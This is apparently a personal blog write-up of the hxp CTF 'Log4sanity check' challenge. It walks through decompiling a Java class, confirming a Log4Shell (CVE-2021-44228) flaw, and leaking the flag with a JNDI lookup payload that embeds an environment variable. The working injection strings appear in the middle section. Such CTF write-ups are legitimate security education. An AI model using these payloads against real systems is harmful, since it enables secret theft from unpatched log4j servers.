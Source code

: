 ```yaml
---
title: "Log4Sanity Check"
author : Seif-Allah
layout: post
category : CTF-WriteUp
description : WriteUp for log4j challenge from hxp CTF. 
---
```


## Introduction

Hello, 

This is a detailed writeup for the Log4sanity check from hxp ctf hosted last week. 

You can find the challenge's files [here](https://github.com/seifallahhomrani1/CTF-Files) 

Basically, I'm not a Java fan but I totally enjoyed this challenge and its learning journey, so that's why I'm sharing this writeup : 


After a simple investigation of the Dockerfile, this caught my eye :
` CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh" `

well, **[ynted](https://github.com/rwstauner/ynetd)** is a tiny server written in Go which is used to manage microservices, with a cmd command that reads the flag's content and assign it to an environment variable. Nice ! so now we know our flag's location. 

More investigating the files, we see a Vuln.class, after running the **file** command, we can see that it's a compiled java class, so we need to a decompiler to investigate the code. After some research, I found an Open Source tool called [Byte code viewer](https://github.com/Konloch/bytecode-viewer), installing it and running it on our vuln class. 

![bytecode](/assets/images/writeups/bytecode.png)

Basically, it's simple java class which prints "What is your favourite CTF?", scan's for an input and assign it to var2, then runs an if condition, and if there's any error, it catches it, very simple, and nothing suspisious, hell no ! we can see from the imports that it's using the vulnerable log4j module, and at line 20, it uses the logger var1 and prints the error message, so it's clear that we can inject our famous payload : '${jndi:ldap://127.0.0.1/check}' and check if it throws an error (You can find a well explained video of the log4j vulnerability by LiveOverFlow [here](https://www.youtube.com/watch?v=w2F67LbEtnk)) 

![check](/assets/images/writeups/vulnerability.png)

Bingo! It's vulnerable, now it's time for building our puzzle : 

- Flag is located in environment variable called FLAG 
- We have a vulnerable java loggin library
- ${jndi:ldap://127.0.0.1/check} could work as payload

Similar to the spirit of "Reflected XSS" where we append the cookie to the url, here we can append the Flag to the ldap request, and it will be then logged and we will see it in the console : 

Final payload : 

${jndi:ldap://127.0.0.1/${env:FLAG}}

![final](/assets/images/writeups/flag2.png)


## Conclusion

It was an entertaining challenge, even though I have a basic Java knowledge, but the learning process and the Adrenaline rush was amazing ! 

Log4shell (CVE-2021-44228) is still a critical vulnerabilty even with the log4j 2.16.0 patch (LOL), which may leads to a "SERIOUS" DDOS attack (CVE-2021-45105) "Apache Log4j2 does not always protect from infinite recursion in lookup evaluation"

To learn more : [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html) 
